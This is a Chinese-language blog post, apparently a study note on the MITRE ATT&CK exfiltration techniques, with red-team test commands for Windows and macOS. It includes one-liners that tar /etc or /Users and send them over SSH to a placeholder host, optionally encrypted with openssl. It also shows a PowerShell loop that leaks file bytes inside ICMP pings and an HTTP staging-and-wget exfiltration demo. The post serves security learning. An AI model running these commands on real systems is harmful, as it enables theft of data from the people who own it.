 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之exfiltration
excerpt: "跟着ATT&CK学安全之exfiltration"
categories: [ATT&CK]
comments: true
---
```

### T1002 - Data Compressed
###### 测试1 Compress Data for Exfiltration With PowerShell
```
dir #{input_file} -Recurse | Compress-Archive -DestinationPath #{output_file}
```
clean up
```
Remove-Item -path #{output_file}
```
其他的不列举了,都是一些简单的压缩命令,没有技术含量

win10成功复现
### T1022 - Data Encrypted
暂时不列举,就是一些带密码的压缩命令
### T1030 - Data Transfer Size Limits
将文件分割,绕过大小限制
```bash
cd /tmp/
dd if=/dev/urandom of=/tmp/victim-whole-file bs=25M count=1
split -b 5000000 /tmp/victim-whole-file
ls -l
```
win10成功复现
### T1048 - Exfiltration Over Alternative Protocol
###### 测试1 Exfiltration Over Alternative Protocol - SSH
```
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```
或者
```
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```
应该可以
###### 测试2 通过ICMP协议传送数据
`$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path C:\Windows\System32\notepad.exe -Encoding Byte -ReadCount 1024) { $ping.Send("127.0.0.1", 1500, $Data) }`
win10成功复现
###### 测试3 通过Http协议传送数据
搭建http服务
```bash
cd /tmp/victim-staging-area && python -m SimpleHTTPServer 1337
```
下载
```bash
wget http://VICTIM_IP:1337/victim-file.txt
```
win10成功复现

## macos

## T1030 - Data Transfer Size Limits

红队可以通过调整传输文件的大小来绕过一些网络监控的告警，Demo如下

###### Demo1 通过命令切分文件大小

```
cd #{folder_path}; split -b 5000000 #{file_name}
ls -l #{folder_path}
```

## T1048 - Exfiltration Over Alternative Protocol

红队可以选择一些特定的协议将数据传送出去，包括FTP, SMTP, HTTP/S, DNS, SMB，一些Demo如下

###### Demo1 通过ssh协议传输数据

```
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```

或者使用如下命令将数据加密后传输

```
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```

## T1048.003 - Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol

红队可以将数据混淆或进行伪装，来绕过网络监控的检测，Demo如下

###### Demo1 通过http传输

1. 受害者机器上操作

   ```
   mkdir /tmp/victim-staging-area echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt
   ```

2. 使用python搭建http服务

   ```
   cd /tmp/victim-staging-area python -m SimpleHTTPServer 1337
   ```

3. 数据传输

   ```
   wget http://VICTIM_IP:1337/victim-file.txt
   ```

   PS:有人用这种方法？感觉很土